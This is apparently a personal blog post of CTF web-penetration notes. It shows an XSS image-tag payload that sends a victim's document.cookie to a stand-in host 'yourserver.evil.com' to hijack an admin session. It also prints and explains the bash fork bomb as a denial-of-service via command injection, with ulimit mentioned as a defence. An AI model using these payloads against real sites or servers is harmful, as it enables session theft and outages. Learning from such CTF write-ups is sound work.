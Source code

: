 ```yaml
---
layout: post
title:  "XSS notes"
date:   2019-06-15 14:29:25 +0800
categories: infosec
---
```

> Web penetration writeups

*Due to the on-going nature of the CTF, I will be avoiding keywords related to the problem or hint the answer out of respect for the competition.*

## Cookie Stealing

Basically, there's a page which might be vulnerable to XSS. The goal is to use XSS to change the access level to admin.

Right off the bat, we see that there is a server console on the page. As I opened my *editthiscookie* tool, I saw that there is a user cookie. This hints that we are trying to use XSS to steal the admin cookie as we are given the server address.

> XSS are known to be used to steal cookies. The most common type of attack is to use JavaScript to steal a user's log in cookie (called a session cookie).

Hence, I'll try a script to be run on the page to acess the page.

```javascript
<img src="https://yourserver.evil.com/collect.gif?cookie=' + document.cookie + '" />
```

Looking at the console, it seems that they logged the admin cookie. Once I changed my user cookie to the admin's, I instantly got access.

And we're done!

## Fork Bombing

> XSS that hangs the server -> :(){:|:&};:

On sites that allow command injection, a fork bomb is an extremely effective way of performing a DoS attack. The command is nothing but a bash function that gets run recursively.

The gist of a fork bomb is:

```bash
 :() {
   :|:&
 };:
```

We first define a function :, then we call itself (recursion) and pipe the output to the same function with :|: Next, the & puts the function call in the background so the function will not die and will keep eating at system resources. Then, we simply call the function to start the DoS attack.

By setting a ulimit on linux, we can easily prevent the bomb from eating away our resources.